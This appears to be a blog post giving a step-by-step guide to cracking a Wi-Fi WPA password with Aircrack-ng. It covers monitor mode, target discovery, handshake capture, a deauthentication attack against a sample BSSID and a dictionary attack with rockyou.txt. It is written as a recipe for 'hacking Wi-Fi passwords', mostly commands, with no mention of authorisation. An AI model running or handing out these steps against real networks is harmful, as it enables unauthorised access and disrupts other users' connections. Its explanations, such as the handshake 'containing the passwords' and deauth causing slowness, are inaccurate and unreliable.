 ```yaml
---
title: Perform a simple Wi-Fi attack using Aircrack-ng
pin: false
image:
  path: ./assets/img/2024/aircrack-ng.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Aircrack-ng
---
```


I'll show you how to hack Wi-Fi passwords in this article.

1. To perform the attack, we will first install the [needed software](https://aircrack-ng.org):

```bash
sudo apt install aircrack-ng
```

2. And figure out your wireless card's interface name:

```bash
iwconfig # | ifconfig | ip link
```

Mine looks like `wlp2s0`, and remeber to replace it with your own on the following steps.

3. Free your wireless card from present connection if there's any.

```bash
❯ sudo airmon-ng check rfkillsudo                                  
Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
   1260 avahi-daemon
   1320 NetworkManager
   1323 wpa_supplicant
   1351 avahi-daemon
```

As you can see, this command has sent a clear message.

If we want to continue the attack, we'll need a wireless card in `monitor` mode. 

Hence, let's kill the processes that have our card occupied using the command below:

```bash
❯ sudo airmon-ng check kill 1260 1320 1323 1351
``` 

4. Now we'll find our target.

```bash
sudo airodump-ng wlp2s0
```

Remember wlp2s0? It's my wireless card's name.

Press `Ctrl+C` to stop the searching process if the Wi-Fi you want to attack has been listed.

5. Capture the traffic.

```bash
sudo airodump-ng -c <channel number> --bssid <access point BSSID> wlp2s0 -w <file path>
```

`<channel number>` and the `<bssid>` can be found from last command's output.

Take the command below as an example:

```bash
sudo airodump-ng -c 6 --bssid 0E:2D:EE:66:95:FC wlp2s0 -w ~/Documents/aircrack_capture/wifiname
```

Note that this command will keep running until we have what we wanted captured, which is a `WPA handshack packet` containing the passwords from a certain user's inputs, and press `Ctrl+C`.

6. Deauthentication attacks.

Remember to run this command in a new terminal if you can recall that our last command is still running.

```bash
sudo aireplay-ng -a <bssid> --deauth <time> wlp2s0
```

Take this as an example.

```bash
sudo aireplay-ng -a 0E:2D:EE:66:95:FC --deauth 1000 wlp2s0
```

Some understandings of my own, this command will send lots of packets to the target network, causing a slow connection which stands a chance that a user will have to input the passwords again can reconnect.

And if the certain packet containing the passwords get captured, you'll see `WPA handshake: 0E:2D:EE:66:95:FC` on another terminal's top left corner.

After that, you can kill both running processes.

7. Match the passwords in captured packet.

```bash
sudo aircrack-ng <packet.cap> -w <path to wordslist>
```

In my case, I copied `rockyou.txt` from `Kali`, you can do so or search the internet to find another way.

Note that there's a chance no correct passwords are included in your wordslist.


